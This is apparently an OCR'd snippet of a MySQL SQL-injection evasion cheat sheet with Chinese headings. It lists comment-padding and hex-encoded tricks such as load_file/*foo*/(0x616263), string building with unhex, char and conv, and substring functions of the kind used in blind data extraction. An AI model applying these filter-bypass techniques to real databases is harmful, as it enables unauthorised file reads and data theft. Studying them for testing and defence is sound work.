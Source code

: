 ``` sql
select * from users where true#函数过滤器ascii (97)
  
load_file/*foo*/(0×616263)
#用函数构建字符串
  
'abc' = unhex(616263)
  
'abc' = char(97,98,99)
  
 hex('a') = 61
  
 ascii('a') = 97
  
 ord('a') = 97
  
'ABC' = concat(conv(10,10,36),conv(11,10,36),conv(12,10,36)) 
#特殊字符
  
  aes_encrypt(1,12) // 
  
  des_encrypt(1,2) // 
  
  @@ft_boolean_syntax // + -><()~*:""&|
  
  @@date_format // %Y-%m-%d
  
  @@innodb_log_group_home_dir // .\
@@new: 0
  
@@log_bin: 1
  
#提取子字符串substr('abc',1,1) = 'a'
  
substr('abc' from 1 for 1) = 'a'
  
substring('abc',1,1) = 'a'
  
substring('abc' from 1 for 1) = 'a'
  
mid('abc',1,1) = 'a'
  
mid('abc' from 1 for 1) = 'a'
  
lpad('abc',1,space(1)) = 'a'
  
rpad('abc',1,space(1)) = 'a'
  
left('abc',1) = 'a'
  
reverse(right(reverse('abc'),1)) = 'a'
  
insert(insert('abc',1,0,space(0)),2,222,space(0)) = 'a'
  
space(0) = trim(version()from(version()))
#搜索子字符串
  
locate('a','abc')
  
position('a','abc')
  
position('a' IN 'abc')
  
instr('abc','a')
```